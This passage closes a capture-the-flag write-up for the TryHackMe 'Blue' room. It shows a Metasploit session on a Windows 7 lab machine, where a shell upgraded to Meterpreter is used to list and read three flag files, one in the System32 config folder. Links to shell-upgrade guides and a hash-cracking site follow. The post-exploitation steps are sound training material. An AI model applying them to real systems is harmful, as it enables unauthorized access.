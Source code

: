 ```

    Path                                  Size (bytes)  Modified (UTC)
    ----                                  ------------  --------------
    c:\Users\Jon\Documents\flag3.txt      37            2019-03-17 19:26:36 +0000
    c:\Windows\System32\config\flag2.txt  34            2019-03-17 19:32:48 +0000
    c:\flag1.txt                          24            2019-03-17 19:27:21 +0000
    msf6 post(multi/manage/shell_to_meterpreter) > sessions 1
    [*] Starting interaction with 1...


    Shell Banner:
    Microsoft Windows [Version 6.1.7601]
    Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

    C:\Windows\system32>
    -----
    C:\Windows\system32>type c:\flag1.txt
    type c:\flag1.txt
    flag{access_the_machine}
    C:\Windows\system32>type c:\Windows\System32\config\flag2.txt
    type c:\Windows\System32\config\flag2.txt
    flag{sam_database_elevated_access}
    C:\Windows\system32>type c:\Users\Jon\Documents\flag3.txt                   
    type c:\Users\Jon\Documents\flag3.txt
    flag{admin_documents_can_be_valuable}
    ```

## Reference 

[Blue](https://tryhackme.com/room/blue)

[Shell_to_meterpreter](https://blog.csdn.net/Karol_agan/article/details/109784055)

[将Common shell 提升为 Meterpreter shell](https://blog.csdn.net/weixin_46104215/article/details/120406583)

[CrackStation](https://crackstation.net/)
